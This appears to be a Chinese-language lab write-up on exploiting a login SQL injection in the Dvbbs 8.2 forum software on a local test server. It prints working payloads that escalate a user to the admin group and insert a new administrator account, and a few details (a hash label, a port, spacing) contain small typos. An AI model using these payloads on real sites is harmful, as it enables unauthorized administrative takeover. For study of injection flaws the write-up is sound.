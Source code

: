 ```yaml
---
layout: post
title: "动网论坛8.2经典注入漏洞利用"
description: "动网论坛8.2经典注入漏洞利用"
tag: web 安全
---
```


<br />

---

<br />

## **实验目的:**

##### &nbsp;&nbsp;&nbsp;1.理解动网8.2版本注入漏洞的利用原理

<br />

## **实验原理:**

##### &nbsp;&nbsp;&nbsp; 动网8.2在用户登录时，过滤不严，可以导致注入，提升权限。漏洞存在于源程序的login.asp文件。

<br />

## **实验步骤:**

<b>●</b>打开IE，在浏览器中输入 <code>http://192.168.1.3:8010/</code> ,打开动网论坛，并注册一个账户，用户名为"san"，密码为"123456"

<img src="/files/dvbbs 8.2 classic injection vulnerability utilization/1.png" width="400px" height="180px">

<br />

<b>○</b>然后退出，打开登录界面，使用以下语句登录，用户名 <code>san 'and' a '=' a</code>,密码"1234567",此时登录显示用户名或密码错误

<img src="/files/dvbbs 8.2 classic injection vulnerability utilization/2.png" width="300px" height="160px">

<br />

<b>●</b>再使用以下语句登录，用户名 <code>san 'and' a '=' b</code>，密码"1234567"

<img src="/files/dvbbs 8.2 classic injection vulnerability utilization/3.png" width="300px" height="160px">

<br />

<b>○</b>提示用户不存在，说明上面两个语句起作用了，输入语句

<code>';update dv_user set usergroupid=1 where username='san'--</code>

<img src="/files/dvbbs 8.2 classic injection vulnerability utilization/4.png" width="300px" height="160px">

<br />

<b>●</b>此时又提示用户不存在，但是使用用户名"san",密码"123456"登录后可发现"san"用户已属于管理组用户

<img src="/files/dvbbs 8.2 classic injection vulnerability utilization/5.png" width="450px" height="180px">

<br />

<b>○</b>退出，使用以下语句作为用户名，密码为"123456"

```SQL
san';insert intodv_ admin (username,password,flag,adduser) //空格,没有换行//
values('san','49ba59abbe56e057','1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19, 20,21,22 ,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45','san'' )--
```

注意:49ba59abbe56e057是123456的cmd16位密文

<img src="/files/dvbbs 8.2 classic injection vulnerability utilization/6.png" width="300px" height="160px">

<br />

<b>●</b>在地址栏输入 <code>http://192.168.1.3:8001/admin</code> 进入管理员界面，使用"san"及"123456"登录，可以发现登录成功

<img src="/files/dvbbs 8.2 classic injection vulnerability utilization/7.png" width="200px" height="130px">

<br />

<b>○</b>进入到后台后，可以看到san用户已经是管理员

<img src="/files/dvbbs 8.2 classic injection vulnerability utilization/8.png" width="400px" height="180px">

<br />

## **实验总结:**

这次实验对注入漏洞有了个大概的了解，对其注入原理也有了个大概的印象;

要完全理解那些注入语句的含义，还是要看看SQL语句相关知识，了解一下数据库。

